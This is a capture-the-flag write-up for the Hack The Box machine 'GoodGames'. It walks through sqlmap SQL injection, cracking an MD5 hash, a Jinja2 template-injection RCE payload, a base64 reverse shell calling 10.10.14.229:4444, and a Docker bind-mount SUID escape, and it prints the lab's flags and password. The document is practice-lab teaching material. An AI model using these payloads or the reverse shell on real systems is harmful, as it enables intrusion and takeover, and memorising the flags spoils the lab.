






# 🐧 GoodGames — HTB


> **TL;DR** — A single Flask app on port 80 → the login `email` parameter is vulnerable to **SQL injection**, dumping the admin's **MD5** password → logging in reveals a second vhost `internal-administration.goodgames.htb` → its "Full Name" field is vulnerable to **SSTI** (Jinja2) → RCE gives a shell inside a **Docker** container as `root` → augustus's home is **bind-mounted**, so a root-owned **SUID bash** planted there + **password reuse** over SSH escalates to root on the host.

**Tags:** `SQL injection` · `sqlmap` · `MD5 cracking` · `vhost enumeration` · `SSTI` · `Jinja2` · `Flask` · `RCE` · `Docker breakout` · `bind mount` · `SUID` · `password reuse`

---

## 1. How many open TCP ports are listening on GoodGames?

Start with a full-range service scan:

```bash
nmap -sV -p- 10.129.102.78
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.9.2)
```

Only one port — and `Werkzeug` tells us the app is **Flask**, worth remembering for later.

> **Answer:** `1`

## 2. What is the name of the parameter that is vulnerable to SQL Injection on goodgames.htb?

The site has a login panel. I captured the login request in Burp, saved it to a file and marked the `email` parameter with `*` so sqlmap targets it:

```
POST /login HTTP/1.1
Host: 10.129.102.78
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: http://10.129.102.78
Connection: keep-alive
Referer: http://10.129.102.78/blog
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=*&password=test
```

```bash
sqlmap -r request2.txt --level=5 --risk=3 --batch --random-agent --tamper=space2comment
```

sqlmap quickly confirmed the `email` parameter is injectable:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: email=' AND EXTRACTVALUE(2614,CASE WHEN (2614=2614) THEN 2614 ELSE 0x3A END) AND 'Ckco'='Ckco&password=test
```

> **Answer:** `email`

## 3. What is the password of the admin user?

With a working injection, dump the schema first to find where the users live:

```bash
sqlmap -r request2.txt --schema --dump --batch
```

Then target the `user` table directly:

```bash
sqlmap -r request2.txt --schema --dump -D main -T user --batch --threads=5
```

```
Database: main
Table: user
[1 entry]
+----+---------------------+--------+----------------------------------+
| id | email               | name   | password                         |
+----+---------------------+--------+----------------------------------+
| 1  | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+----+---------------------+--------+----------------------------------+
```

The password is an unsalted **MD5** hash. Cracking it (e.g. via md5decrypt.net) gives:

```
superadministrator
```

> **Answer:** `superadministrator`

## 4. What other domain name is hosted on the same target IP?

After logging in with `admin:superadministrator`, hovering over the settings icon in the top-right corner reveals a second host. Add it to `/etc/hosts`:

```
internal-administration.goodgames.htb
```

> **Answer:** `internal-administration.goodgames.htb`

## 5. What type of exploit the "Full Name" parameter in the "Settings" page is vulnerable to?

The new vhost is another Flask app. Logging in there with `admin:superadministrator` and opening **Settings** exposes a "Full Name" field. Since the stack is Flask/Jinja2, **template injection** is the obvious thing to test.

A plain `{7*7}` does nothing, but the Jinja2 syntax `{{7*7}}` renders `49` — confirmed SSTI:



> **Answer:** `Server Side Template Injection`

## 6. Submit the flag located in the augustus user's home directory.

Escalate the SSTI to command execution and read the flag:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /home/augustus/user.txt').read() }}
```



> **Answer:** `23d1907eb58d9fa9d3e515da697f498d`

## 7. What is the IP address of the host system?

Running `ifconfig` through the RCE shows:

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.19.0.2  netmask 255.255.0.0  broadcast 172.19.255.255
        ether 02:42:ac:13:00:02  txqueuelen 0  (Ethernet)
```

`172.19.0.2` itself is not the answer. A MAC starting `02:42` plus an IP in `172.19.0.0/16` strongly suggests we're inside a **Docker** container. Confirm it via `/proc/1/cgroup`:



With that confirmed, `ip route` reveals the default gateway — the host:



> **Answer:** `172.19.0.1`

## 8. What command can be run on the docker instance to identify if the home directory of the user augustus we enumerated earlier is mounted?

`mount` lists the container's mounts — grepping for `augustus` shows the home directory is **bind-mounted** from the host:

```bash
mount | grep augustus
```



> **Answer:** `mount`

## 9. What type of permissions can we assign as root on the docker instance on a file that resides in augustus's home directory?

We are `root` inside the container, and augustus's home is bind-mounted, so files we create there are owned by **root** on the host too:



> **Answer:** `root:root`

## 10. Submit the flag located in the root user's home directory.

First, turn the SSTI into a stable reverse shell. Base64-encode the payload (URL-encoding `+` as `%2b`) and run it through the RCE:

```bash
# listener
nc -lvnp 4444
```

```
name={{+self.__init__.__globals__.__builtins__.__import__('os').popen('echo${IFS}YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4yMjkvNDQ0NCAwPiYx|base64${IFS}-d|bash').read()+}}
```

The decoded command is the classic:

```bash
bash -i >& /dev/tcp/10.10.14.229/4444 0>&1
```

As `root` in the container, copy `bash` into augustus's (bind-mounted) home and give it the **SUID** bit:

```bash
cp /bin/bash /home/augustus/bash
chmod 4755 /home/augustus/bash
```

Upgrade the shell to a proper TTY:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
# Enter, Enter
export TERM=xterm
```

Then SSH to the host as augustus, reusing the password `superadministrator`:

```bash
ssh augustus@172.19.0.1
```

The SUID bash copied from the *container* fails on the host because of a missing library:

```
/home/augustus/bash: error while loading shared libraries: libtinfo.so.5: cannot open shared object file
```

Fix: copy the **host's** own `/bin/bash` into augustus's home from the host side, then from the container (where we are root) set the ownership and SUID bit on it:

```bash
chown root:root bash
chmod 4755 bash
```

Back on the host as augustus, run it with `-p` to keep the elevated privileges:

```bash
./bash -p
```

```
bash-5.1# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) groups=1000(augustus)
bash-5.1# cat /root/root.txt
599588a082709f34a1e44040a44c6455
```

> **Answer:** `599588a082709f34a1e44040a44c6455`

---

## 🏁 Flags

| Flag | Value |
|---|---|
| **User** (`/home/augustus/user.txt`) | `23d1907eb58d9fa9d3e515da697f498d` |
| **Root** (`/root/root.txt`) | `599588a082709f34a1e44040a44c6455` |
